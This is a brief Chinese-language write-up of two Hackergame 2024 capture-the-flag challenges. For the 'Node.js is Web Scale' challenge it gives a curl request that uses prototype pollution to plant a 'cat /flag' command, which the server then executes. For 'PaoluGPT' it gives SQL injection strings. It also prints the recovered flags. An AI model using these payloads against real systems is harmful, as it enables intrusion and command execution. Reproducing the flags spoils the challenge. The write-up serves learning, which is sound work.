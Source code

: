 ![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 16.png)

# Node.js is Web Scale

   步骤1：进行原型污染

发送POST请求：



     ```bash

     curl -X POST https://chal03-qt8nol2k.hack-challenge.lug.ustc.edu.cn:8443/set \

     -H "Content-Type: application/json" \

     -d '{"key":"__proto__.getflag","value":"cat /flag"}'

     ```



     成功后，服务器的`Object.prototype`将包含`getflag`命令。



 执行注入的命令获取flag



     访问以下URL：



     ```

     https://chal03-qt8nol2k.hack-challenge.lug.ustc.edu.cn:8443/execute?cmd=getflag

     ```



     服务器将执行`cat /flag`命令，并返回flag内容。

flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_dabcbb565a}

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 17.png)

# PaoluGPT

1

' OR contents LIKE '%flag%' --

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 18.png)

flag{zU1_xiA0_de_11m_Pa0lule!!!_c2ecac9c0b}

找到上面文章id后继续构造

' OR (id!='bffd8d8f-367b-4ee7-88c7-de324c03fcf0' and contents LIKE '%flag%') --

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 19.png)
